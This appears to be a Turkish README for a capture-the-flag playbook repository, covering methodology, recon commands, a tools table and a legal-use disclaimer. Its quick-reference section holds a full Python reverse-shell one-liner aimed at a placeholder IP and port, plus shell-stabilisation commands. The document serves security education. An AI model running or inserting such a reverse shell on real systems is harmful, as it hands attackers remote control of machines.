

# 🚩 CTF-Playbook



[](https://opensource.org/licenses/MIT)
[](https://github.com/topics/cybersecurity)
[](https://github.com/topics/ctf)

Bu depo, Capture The Flag (CTF) yarışmalarında karşılaşılan karmaşık zorluklara karşı geliştirilmiş **sistematik saldırı metodolojilerini**, **teknik komut referanslarını** ve **çözüm stratejilerini** içeren kapsamlı bir harekat merkezidir.

Amacı, rastgele deneme-yanılma yönteminden ziyade, her kategori için tekrarlanabilir, ölçülebilir ve optimize edilmiş bir iş akışı (workflow) oluşturmaktır.

---

## 🧠 Temel Felsefe: "Chaos to Order"

CTF yarışmaları genellikle zaman baskısı altında geçer. Bu playbook'un varlık sebebi:
1.  **Hız:** Ezberlenmesi zor ama kritik olan komutlara anında erişim.
2.  **Disiplin:** Bir hedef karşısında "şimdi ne yapmalıyım?" sorusuna metodolojik cevaplar.
3.  **Süreklilik:** Öğrenilen her yeni tekniği kalıcı bir hafızaya dönüştürmek.

---

## 📂 Repo Yapısı

```text
.
├── 🛠️ Methodology/          # Kategorik saldırı akış şemaları
│   ├── Web-Exploitation.md   # Keşiften RCE'ye web adımları
│   ├── Binary-Pwn.md         # Bellek bozulmaları ve exploit geliştirme
│   ├── Reverse-Eng.md        # Statik ve dinamik analiz teknikleri
│   └── Active-Directory.md   # AD sızma testi iş akışı
├── 📜 Cheat-Sheets/         # "Kopyala-Yapıştır" komut listeleri
│   ├── Reverse-Shells.md     # Çok dilli shell komutları
│   ├── Priv-Esc.md           # Yetki yükseltme (Linux/Win)
│   ├── Crypto-Operations.md  # Yaygın şifreleme kırma yöntemleri
│   └── Heap-Exploitation.md  # Glibc heap saldırı teknikleri
├── 🔧 Tools/                # Özel scriptler ve araç konfigürasyonları
└── 📝 Writeups/             # Katılan CTF'lerin detaylı analizleri
```

---

## 🚀 Operasyonel Metodoloji (OODA Loop)

Operasyonlarımızı **Gözlemle, Yönel, Karar Ver, Uygula** döngüsü üzerine kuruyoruz:

### 1. Keşif ve Bilgi Toplama (Reconnaissance)
Her operasyon kapsamlı bir tarama ile başlar:
*   **Port Tarama:** `nmap -sC -sV -oA nmap/initial <IP>`
*   **Dizin Tarama:** `ffuf -w /path/to/wordlist -u http://TARGET/FUZZ`
*   **Alt Alan Adı Tespiti:** `subfinder -d target.com`

### 2. Zafiyet Analizi (Vulnerability Research)
Tespit edilen servisler üzerinde derinleşme:
*   Versiyon bazlı exploit araması (`searchsploit`).
*   Web arayüzünde mantık hataları ve gizli parametre tespiti.
*   Binary dosyalarında `checksec` ile güvenlik önlemlerinin (PIE, NX, Canary) kontrolü.

### 3. İstismar (Exploitation)
Bayrağa giden yolun uygulanması:
*   **Web:** SQLi, LFI/RFI, SSRF, SSTI veya JWT zafiyetleri.
*   **Pwn:** Buffer Overflow, ROP Chain, Format String saldırıları.
*   **Forensics:** `stegsolve`, `binwalk` veya `volatility` ile veri çıkarma.

---

## ⚡ Hızlı Referans (Quick Access)

### 🐍 Reverse Shell (Python)
```python
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<YOUR_IP>",<PORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

### 🐚 TTY Upgrade (Stabilize Shell)
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# CTRL+Z
stty raw -echo; fg
export TERM=xterm
```

---

## 🛡️ Cephanelik (The Arsenal)

| Kategori | Araçlar | Amaç |
| :--- | :--- | :--- |
| **Web** | Burp Suite, Zap, SQLMap, Dirsearch | Web Zafiyet Analizi |
| **Pwn/Rev** | Ghidra, GDB-GEF, Pwntools, Hopper | Binary Analiz |
| **Crypto** | CyberChef, SageMath, RsaCtfTool | Şifreleme Kırma |
| **Forensics** | Wireshark, Volatility, Autopsy | Adli Analiz |
| **AD/Network** | BloodHound, CrackMapExec, Responder | Ağ Sızma |

---

## 🛠️ Kurulum ve Hazırlık
Bu playbook'un en verimli kullanımı için aşağıdaki ortam tavsiye edilir:
*   **OS:** Kali Linux veya Parrot OS.
*   **Terminal:** Zsh + OhMyZsh (Hızlı komut tamamlama için).
*   **Debugger:** GDB + GEF eklentisi.

---

## 📈 Gelişim ve Katkı
Bu rehber yaşayan bir dokümandır. Her yeni öğrenilen teknik, çözülen her zorlayıcı "challenge" sonrasında metodoloji kısmına yeni adımlar eklenmelidir.

> **⚠️ Uyarı:** Bu repo içerisinde paylaşılan tüm teknikler ve komutlar sadece yasal CTF yarışmaları ve eğitim amaçlı laboratuvar ortamları için tasarlanmıştır. Kötüye kullanım sorumluluğu uygulayana aittir.

---

### ✅ Tamamlanan ve Hedefler
- [x] AD (Active Directory) saldırı metodolojisi eklendi.
- [x] Heap Exploitation cheat-sheet oluşturuldu.
- [x] Temel araç konfigürasyonları `Tools/` altına taşındı.
- [ ] Bulut (Cloud) güvenliği metodolojisi ekle.
- [ ] Mobil uygulama sızma testi adımlarını dökümante et.

---

*Bu playbook, siber güvenlik dünyasındaki kaosu sistematik bir disipline dönüştürmek için oluşturulmuştur.*
